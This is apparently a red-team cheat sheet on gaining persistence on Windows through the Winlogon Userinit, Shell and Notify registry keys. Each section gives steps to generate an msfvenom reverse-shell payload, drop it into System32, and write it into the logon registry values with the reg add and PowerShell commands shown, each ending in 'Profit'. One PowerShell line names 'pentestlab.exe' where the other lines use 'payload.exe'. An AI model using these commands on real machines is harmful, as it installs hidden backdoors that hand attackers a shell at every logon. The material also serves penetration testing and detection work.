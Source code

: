 # Winlogon Helper DLL

> Winlogon is a Windows component which handles various activities such as the Logon, Logoff, loading user profile, etc. It is managed by the registry which defines which processes to start during Windows logon. These events can be the trigger that will execute an arbitrary payload for persistence.

**Tactics:** Persistence, Privilege Escalation

**Platforms:** Windows

**Permissions Required:** Administrator, SYSTEM


Requires modification of the following registry keys:

```bash
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```

### Userinit registry:

1. Generate a reverse shell payload using msfvenom (.exe format).
2. Drop that payload into the "System32" folder.
3. Modify the userinit registry key to include our payload. Final version will be (C:\Windows\System32\userinit.exe, payload.exe)

```bash
#cmd:
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, payload.exe" /f

#powershell:
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, payload.exe" -Force
```

4. Start a handler.
5. Profit.

### Shell registry:

1. Generate a reverse shell payload using msfvenom (.exe format).
2. Drop that payload into the "System32" folder.
3. Modify the shell registry key to include our payload. Final version will be (C:\Windows\System32\explorer.exe, payload.exe)

```bash
#cmd:
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, payload.exe" /f

#powershell:
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, pentestlab.exe" -Force
```

4. Start a handler.
5. Profit.

### Notify registry (older Windows versions):

> Typically found in older operating systems (prior to Windows 7). It points to a notification package DLL file which handles Winlogon events.

1. Generate a reverse shell payload using msfvenom (.dll format).
2. Drop that payload into the "System32" folder.
3. Replace the notify registry key with our payload.
4. Profit a SYSTEM shell.

_____

More info at [MITRE-T1547](https://attack.mitre.org/techniques/T1547/004/)
